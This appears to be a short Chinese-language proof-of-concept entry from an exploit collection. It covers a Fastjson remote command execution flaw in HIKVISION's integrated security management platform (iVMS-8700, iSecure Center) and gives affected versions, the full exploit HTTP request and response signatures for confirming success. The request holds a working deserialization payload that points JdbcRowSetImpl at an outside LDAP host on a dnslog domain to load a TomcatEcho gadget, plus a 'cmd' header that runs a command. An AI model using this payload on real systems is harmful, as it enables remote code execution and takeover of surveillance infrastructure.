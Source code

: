 ﻿# HiKVISION 综合安防管理平台远程命令执行漏洞Fastjson

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：V2.0.0 <= iVMS-8700 <= V2.9.2
V1.0.0 <= iSecure Center <= V1.7.0

> 漏洞特征：

> 验证脚本：HTTP

```
POST /bic/ssoService/v1/applyCT HTTP/1.1 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
cmd: whoami

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://h7nqrs.dnslog.cn/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

> 响应代码特征：-1

> 响应内容特征："code": "0x00215000"

> 上传文件定位：

> 验证文件来源：HiKVISION 综合安防管理平台远程命令执行漏洞Fastjson.poc

